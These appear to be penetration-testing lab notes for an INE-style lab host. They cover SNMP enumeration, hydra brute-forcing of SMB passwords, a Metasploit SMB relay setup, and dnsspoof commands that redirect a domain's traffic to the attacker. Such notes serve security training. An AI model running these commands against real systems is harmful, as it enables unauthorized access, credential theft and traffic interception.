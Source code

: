 > We must keep in mind that **nmap** does not check for **UDP** ports by default. As we already know, **SNMP** runs on the **UDP** port **161**. So we have to run a special specific scan.

```Shell
nmap -sU -p 161 --script=snmp-brute <ip-address>
```

>  nmap `snmp-brute` script can be used to find the community string. The script uses the `snmpcommunities.lst` list for brute-forcing it is located inside `/usr/share/nmap/nselib/data/snmpcommunities.lst` directory.

```Shell
snmpwalk -v 1 -c public demo.ine.local
```

> `snmpwalk` tool can be used to find all the information via SNMP.

`-v`: Specifies SNMP version to use.
`-c`: Set the community string.

```Shell
nmap -sU -p 161 --script snmp-* demo.ine.local > snmp_output
```

> The above command would run all the nmap SNMP scripts on the target machine and store its output to the`snmp_output`file.

```Shell
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb
```

> After this `psexec` can be used to exploit the machine.

#### SMB Relay Attack:

```msfconsole
use exploit/windows/smb/smb_relay
show options
set LHOST <our-ip-address>
set SRVHOST <our-ip-address>
set SMBHOST <target-ip-address>
exploit
jobs
```

> This will start the server up for the relay attack.

```Shell
echo "<our-ip-address> *.sportsfoo.com" > dns
```

> By this command we have created a fake kind of `DNS` file that can be used to spoof the DNS then.

```Shell
dnsspoof -i eth1 -f dns
```

> The command  uses the `dnsspoof` tool to intercept and spoof DNS queries on the network interface `eth1`, using the DNS in the `dns` file that we just created. This is used to attract all the traffic towards the attacker machine.
